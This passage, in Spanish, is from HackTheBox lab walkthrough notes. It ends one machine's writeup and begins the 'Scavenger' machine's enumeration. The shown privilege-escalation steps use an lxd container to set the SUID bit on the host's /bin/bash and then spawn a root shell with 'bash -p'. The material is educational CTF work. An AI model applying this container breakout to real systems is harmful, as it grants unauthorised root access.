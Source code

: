     ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la `/bin/bash` de la maquina

    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```



# Scavenger {-}

## Introduccion {-}

La maquina del dia 29/07/2021 se llama Scavenger
.

El replay del live se puede ver aqui

[![S4vitaar Scavenger maquina](https://img.youtube.com/vi/U5QLCweacCY/0.jpg)](https://www.youtube.com/watch?v=U5QLCweacCY)

No olvideis dejar un like al video y un comentario...



## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.155
```
ttl: 63 -> maquina linux. 
Recuerda que tratandose de ttl, 64 = linux y 128 = windows. 
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad
